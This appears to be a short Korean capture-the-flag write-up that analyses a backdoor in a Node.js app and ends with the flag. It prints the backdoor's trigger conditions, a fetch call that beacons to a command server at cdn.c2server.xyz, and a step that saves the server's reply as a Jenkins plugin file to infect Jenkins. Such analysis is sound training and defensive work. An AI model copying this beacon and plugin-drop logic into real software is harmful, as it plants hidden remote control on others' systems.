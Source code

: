 백도어 발동 조건

```jsx
NODE_ENV === "production"
APP_ORIGIN + PORT 환경변수 모두 설정
PORT는 80 또는 443
APP_ORIGIN !== "http://localhost/"
APP_ORIGIN이 화이트리스트에 있어야 함:
https://fiesta.com/
https://www.cocoa.com/
```

C2 통신

```jsx
const p = V.nPwSz;  // "http://cdn.c2server.xyz/"
const M = { identifier: U };
await fetch(p + "/found", {
  method: "POST",
  headers: { "Content-Type": V.vgGci }, // "application/json"
  body: JSON.stringify(M)
});
C2 주소: http://cdn.c2server.xyz/found
전송 데이터: { "identifier": "<UID>" }
응답 오면  "NGkxJ": "/var/lib/jenkins/plugins/backup-service.jpi",파일로 저장 → Jenkins 플러그인 감염
```

UID 생성 로직

```jsx
UID 생성 로직 = SHA256(APP_ORIGIN + "Wh4t1sTh1sStr1ng")
APP_ORIGIN = "https://fiesta.com/" 일 때:
UID = sha256("https://fiesta.comwh4t1sth1sstr1ng"/)
```

```java
fiesta{c055caa45c7e2527d5e516ab3e09a782feada2c69533c19c08c3eef3b0a2fe1f}
```

### 시나리오3-2
## 시나리오3-2
